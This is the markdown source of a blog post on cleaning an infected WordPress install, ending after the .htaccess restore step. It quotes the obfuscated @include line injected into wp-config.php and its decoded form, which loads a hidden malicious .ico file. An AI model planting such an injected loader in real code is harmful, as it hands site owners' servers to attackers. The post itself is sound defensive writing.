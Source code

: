 ```yaml
---
title: "How to Clean a Malware Infected WordPress"
date: 2019-12-31T09:06:56-06:00
images: [ wordpress.jpg ]
draft: false
---
```


During the past few weeks I noticed that all my Wordress sites had very slow loading times. My first thought was that I was experiencing increased traffic on one of my websites---I always see the glass half full. After inspecting my host's cpanel, I noticed that the number of processes running was at maximum limit, even though there was not enough traffic for such a thing. Could it be malware? I opened up file manager, and there it was: files that were clearly not part of the default wordpress installation, like for example `tky9gpri.php` and `i684ypcy.php`. I digged a little bit more and also found code injected in some wordpress php files, like for example `wp-config.php` where I found this piece of code near the header:
```php
/*274ce*/

@include "\057h\157m\145/\166i\143t\157r\141s\057c\150i\143a\147o\143h\151.\157r\147/\167p\055i\156c\154u\144e\163/\123i\155p\154e\120i\145/\130M\114/\056c\145b\1437\067e\146.\151c\157";

/*274ce*/
```

Pasting the above code in [UnPHP](https://www.unphp.net) outputs the following decoded output

```php
<?  /*274ce*/

@include "/home/victoras/chicagochi.org/wp-includes/SimplePie/XML/.cebc77ef.ico";

/*274ce*/ ?>
```
In other words, the attacker includes `.cebc77ef.ico`, which is also malicious.

Why did this happen though? With it's hunderds of developers and millions of users, isn't WordPress one of the most secure content management systems one could use? Yes it is, as long as you keep it updated! I had neglected keeping WordPress, the theme I am using as well as all it's plugins up-to-date, which the hackers used to gain access to my system. In fact, since I am hosting 5 websites on the same virtual server, I found out that all 5 have been compromised. Here is how I cleaned them:

## Kill suspicious processes on server
If you have terminal access inspect the running processes (`ps -Af`) and kill any you don't recognize.

### Restore .htaccess file
Restore .htaccess file to the following:

```bash
# BEGIN WordPress
# The directives (lines) between `BEGIN WordPress` and `END WordPress` are
# dynamically generated, and should only be modified via WordPress filters.
# Any changes to the directives between these markers will be overwritten.
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
RewriteRule ^index\.php$ - [L]
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . /index.php [L]
</IfModule>

# END WordPress
```